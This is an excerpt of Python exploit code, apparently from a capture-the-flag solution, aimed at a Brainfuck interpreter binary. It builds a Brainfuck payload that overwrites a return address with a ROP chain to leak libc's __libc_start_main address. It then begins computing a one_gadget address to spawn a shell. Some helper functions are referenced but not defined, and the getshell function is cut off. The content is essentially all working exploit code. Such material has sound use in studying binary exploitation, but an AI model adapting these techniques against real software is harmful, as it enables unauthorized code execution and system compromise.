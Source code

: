 ```python

def ll2bf(num: int):
    ans = []
    space = 64 // 16
    for _ in range(space):
        n = num & 0xffff
        num >>= 16
        ans.append(num2bf(n))
    st = ''
    st += '>' * (space - 1)
    for i in range(space):
        st += ans[space - i - 1]
        st += '<<'
    return st[:-2]


def leak_libc(r):
    puts_plt = 0x1030

    libc_start_main_got = 0x3fe0
    main_addr = 0x1599
    main_return = main_addr + 0x31  # 0x15ca
    pop_rdi_ret = 0x165b

    '''
                      +-------------+
    return address -> | POP RDI RET |
                      +-------------+
                      |     RDI     | -> libc_start_main
                      +-------------+
                      |    RET 1    | -> puts
                      +-------------+
                      |    RET 2    | -> main
                      +-------------+
    '''

    payload = b'>' * 0x104
    payload += b'+' * (pop_rdi_ret - main_return)  # pop rdi ret

    payload += b'>' * space
    payload += (minus_to_zero + b'>') * (space * 4)  # set zero

    payload += b'<' * (space * 5)
    payload += (copy_16 + b'>') * (space * 3)  # copy RDI, RET 1, RET 2
    payload += b'-' * (pop_rdi_ret - main_addr)  # RET 2 = main
    payload += b'<' * space
    payload += b'-' * (pop_rdi_ret - puts_plt)  # RET 1 = puts
    payload += b'<' * space
    payload += b'+' * (libc_start_main_got - pop_rdi_ret) # RDI = libc_start_main
    payload += b'..'

    r.sendline(minimize(payload))
    libc_start_main = u64(r.recv(6).ljust(8, b'\x00'))
    log.info('libc_start_main: ' + hex(libc_start_main))
    return libc_start_main


def getshell(r, libc_start_main):
    one_gadget = 0x4f365
    libc_offset = libc_start_main - libc.symbols['__libc_start_main']
    target = one_gadget + libc_offset
    log.info('target: ' + hex(target))

```